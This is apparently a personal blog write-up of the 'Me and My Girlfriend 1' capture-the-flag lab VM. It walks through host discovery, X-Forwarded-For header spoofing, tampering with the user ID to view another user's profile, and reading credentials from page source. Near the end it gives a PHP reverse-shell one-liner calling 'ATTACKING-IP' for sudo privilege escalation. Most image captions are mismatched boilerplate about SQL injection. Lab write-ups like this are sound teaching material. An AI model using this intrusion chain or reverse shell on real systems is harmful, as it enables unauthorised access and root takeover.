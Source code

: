 ```yaml
---
title: "Me and My Girlfriend 1 Writeup"
date: 2020-02-16T19:09:19+11:00
description: "Writeup for Me and My Girlfriend 1 box"
draft: false
displayInLine: true
displayInMenu: true
draft: false
---
```


# Me and My Girlfriend Write-up 1

For this box, the overall objective is the break into Alice's account, find her secret (flag1.txt) and then gain root access (flag2.txt). When booting up the VM your greeted with a standard ubuntu login. Since no SQL injections work on this login, I need to find the IP of this machine to begin an NMAP scan.

To do this, I use the following command on my kali machine:

    netdiscover -r 192.168.220.0
    
    # -r = range of ips

This will allow me to detect any IP that exists in this range.

<figure>
<img src="/img/meand.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>

As seen there are 4 IPs shown, only one of these is the ip of the alice machine. since *.1* and *.254* are the network and broadcast ip respectively, these leaves *.156* and *.2* but *.2* is most likely the gateway address.

I can further test this by performing and NMAP scan on the ip 192.168.220.156.

    nmap -A 192.168.220.156

<figure>
<img src="/img/Untitled one.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>

Boom so now I know that there are 2 open ports I can use. But one of them being port 80 with an apache version shows that there's a website. So now I'm going to see if i can access the website normally.

<figure>
<img src="/img/Untitled 2.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>

So we are greeted with this kind message telling that the site can only be accessed locally. So lets see if theres anything else.

<figure>
<img src="/img/Untitled 3.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>

There's a comment here saying that we should look up how to use x-forwarded-for

<figure>
<img src="/img/Untitled 4.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>

So what we've gathered is that X-Forwarded-For is a HTTP header field. So from this lets have a look at the header field for the website by using **Burp Suite**

So before setting it up I have to make the necessary changes to Firefox

<figure>
<img src="/img/Untitled 5.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>

<figure>
<img src="/img/Untitled 6.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>

<figure>
<img src="/img/Untitled 7.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>

- So we have to change the proxy setting in Firefox to be the same as the proxy listener in Burp Suite. By going to the bottom of preferences in Network Proxy and changing the configure proxy to manual and inputting the HTTP Proxy as the same ip and Port: *127.0.0.1 8080 .*

Now that this is configured we can refresh the page and capture the page.

<figure>
<img src="/img/Untitled 8.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>

So once we captured it, we can see the data it is able to capture in the refresh. If we navigate to headers we can see what information the headers have.

<figure>
<img src="/img/Untitled 9.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>

This is the header info for the site. So if we were to insert the X-Forwarder-For somewhere we should able to access local. 

<figure>
<img src="/img/Untitled 10.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>
Inserting that should allow us to gain access to local given the two hints.

    X-Forwarded-For: localhost

<figure>
<img src="/img/Untitled 11.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>

<figure>
<img src="/img/Untitled 12.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>

Perfect, I gained access to the proper page. Now lets have alook around.

There was nothing of notability so now Im going to register to see if there anything else.

<figure>
<img src="/img/Untitled 13.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>

Now that I've registered I'm going to look around for potential clues.

<figure>
<img src="/img/Untitled 14.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>

I started playing around with the user_id in the url to see if it changes anything. and so it does. Now im just going to input random numbers and see where it goes.

<figure>
<img src="/img/Untitled 15.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>

Bingo, Alice. Now that we found her profile, we need to find out the password.

<figure>
<img src="/img/Untitled 16.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>v

In the source code weve got the username and password,

    alice
    4lice3

Now to use this password on the Alice machine.

<figure>
<img src="/img/Untitled 17.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>

Were in, now lets dig in and find the flag

<figure>
<img src="/img/Untitled 18.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>
So now we've got the first flag within a hidden file. Now we need to get root access to get the second flag.

So I didn't know where to go from here so I tried to find out what sudo command that Alice can use.

<figure>
<img src="/img/Untitled 19.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>
    sudo -l
    -l = list of If no command is specified, list the allowed (and forbidden) commands for the invoking user (or the user specified by the -U option) on the current host.

Using the above command, I can determine that the Alice user can use the following command as root:

    /usr/bin/php

Now I need to figure a way to exploit this to gain root access.

After doing some researching into it, I found a cheat sheet for reverse shells and found this command:

    php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'

This along side netcat should allow me to gain access through the kali machine using the following command

    nc -nvlp 80

<figure>
<img src="/img/Untitled 20.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>
<figure>
<img src="/img/Untitled 21.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>
<figure>
<img src="/img/Untitled 22.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>
Boom now I'm root, now I just need to navigate to the second flag.

<figure>
<img src="/img/Untitled 23.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>